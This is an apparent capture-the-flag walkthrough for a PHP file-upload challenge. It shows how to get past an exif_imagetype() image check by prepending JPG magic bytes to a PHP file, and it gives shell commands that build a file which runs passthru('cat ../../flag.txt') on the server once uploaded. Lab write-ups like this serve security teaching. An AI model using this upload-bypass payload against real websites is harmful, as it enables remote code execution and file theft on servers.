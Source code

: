 ## Walkthrough
It is recommended that you work through the php_file_flag challenge before starting this challenge because they are very similar.

At first glance, this challenge looks exactly like php_file_flag. However, when attempting to upload the same sol.php file, the website gives an error that the file is not an image file. An attempt to change extension of the sol.php to .jpg also does not succeed in uploading the file. Some Googling reveals that a common way to check if a file is an image in PHP is by using the <code>exif_imagetype()</code> function. This function works by checking the first few bytes of the file (magic number) to determine if the file is an image. Some additional Googling reveals that the first bytes of a JPG file are always "FF D8 FF E0". We can make our sol.php file that starts with those bytes using these commands in Linux:

``` sh
$ echo "FF D8 FF E0" | xxd -r -p >> sol.php # xxd converts the string into hex
$ echo "<?php passthru('cat ../../flag.txt'); ?>" >> sol.php
```

This file will still correctly execute PHP because PHP files only execute code that is between the "<?" and "?>". You can upload this file in the form then right click on the broken image icon to open in a new tab, which executes the PHP and displays the flag.
